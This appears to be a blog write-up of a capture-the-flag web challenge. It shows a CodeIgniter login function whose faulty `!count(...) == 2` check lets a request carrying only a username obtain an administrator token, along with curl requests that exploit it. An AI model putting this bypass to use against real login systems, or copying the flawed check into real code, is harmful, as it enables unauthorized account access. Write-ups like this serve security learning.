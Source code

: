 :PROPERTIES:
:ID:       87299109-6292-4eca-925d-5192b31896b3
:END:
#+TITLE: Insomnia
#+AUTHOR: AsmArtisan256
#+DATE: 07-01-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: insomnia


I'm greeted with a website that has multiple pages, such as =Home=, =Sign In= and
=Sign Up=. So I guess I can create an account and login. I'll start by creating account:

#+DOWNLOADED: screenshot @ 2025-01-07 21:19:08
#+attr_org: :width 600px
[[file:writeup-img/2025-01-07_21-19-08_screenshot.png]]


And now I can login:


#+DOWNLOADED: screenshot @ 2025-01-07 21:19:44
#+attr_org: :width 600px
[[file:writeup-img/2025-01-07_21-19-44_screenshot.png]]

Nothing interesting, very underwhelming! Hopefully, the downloaded files can
show us something more. Right at the start, I can see that the web application
was made using =CodeIgniter=, which uses =PHP=. The logic of each page resides in
the controllers. The =ProfileController.php= seems to be the one that has the
logic of the page that is shown after a user logs in. It is also the one that
reads the flag and prints it out! But I have to be the user called
=administrator=, and I feel it's same to assume that that user already exists.

#+BEGIN_SRC php
if ($username == "administrator") {
    return view("ProfilePage", [
      "username" => $username,
      "content" => $flag,
    ]);
}
#+END_SRC

The =UserController.php= has the logic for the login page and the =login= function
has some error handling and whatever. This is when I think it's best to get the
login request and mess around with it. If I login successfully, I get an access token:

#+BEGIN_SRC sh :results output
curl 'http://94.237.51.26:52223/index.php/login' -X POST -H 'Content-Type: application/json' --data-raw '{"username":"AsmArtisan256","password":"XXXX"}'
#+END_SRC

#+BEGIN_SRC js
{"message":"Login Succesful","token":"XXXX"}
#+END_SRC

If I use an empty password, it tells me that the user wasn't found:

#+BEGIN_SRC sh :results output
curl 'http://94.237.51.26:52223/index.php/login' -X POST -H 'Content-Type: application/json' --data-raw '{"username":"AsmArtisan256","password":""}'
#+END_SRC

#+BEGIN_SRC
User not found
#+END_SRC

Then I tried adding a parameter, just to test it out, but now there isn't even output:

#+BEGIN_SRC sh
curl 'http://94.237.51.26:52223/index.php/login' -X POST -H 'Content-Type: application/json' --data-raw '{"username":"AsmArtisan256","password":"XXXX","test":"test"}'
#+END_SRC

Until I tested the scenario of just sending the username:

#+BEGIN_SRC sh
curl 'http://94.237.51.26:52223/index.php/login' -X POST -H 'Content-Type: application/json' --data-raw '{"username":"AsmArtisan256"}'
#+END_SRC

#+BEGIN_SRC js
{"message":"Login Succesful", "token":"XXXX"}
#+END_SRC

Ok, wait a second, I just sent the username and it still gave me an access
token? I guess I can just change the username to =administrator= and get that
user's access token right? Yep.

Although I found this just by chance, what actually happened? The
=UserController.php= file has the =login= function that executes the previous
request. It starts by connecting to the database, getting the JSON body,
verifying if it has username and password and so on:

#+BEGIN_SRC php
public function login()
{
    $db = db_connect();
    $json_data = request()->getJSON(true);
    if (!count($json_data) == 2) {
        return $this->respond("Please provide username and password", 404);
    }
    $query = $db->table("users")->getWhere($json_data, 1, 0);
    $result = $query->getRowArray();

    // ................
}
#+END_SRC

The =if= statement that verifies the number of parameters in the =JSON= body messed
up, for some reason, and thought that only one parameter was valid enough to
continue through the database logic. But the exclamation point before the
function call makes all the difference:

#+BEGIN_SRC php
$c[0] = 1;
var_dump(count($c));

// => int(1)

$c[0] = 1;
var_dump(!count($c));

// => bool(false)
#+END_SRC

So, according to the code above, ~false == 2~ is always a false statement,
enabling us the possibility of logging in with just the username and getting the
flag by using the resulting access token!


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">07-01-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT

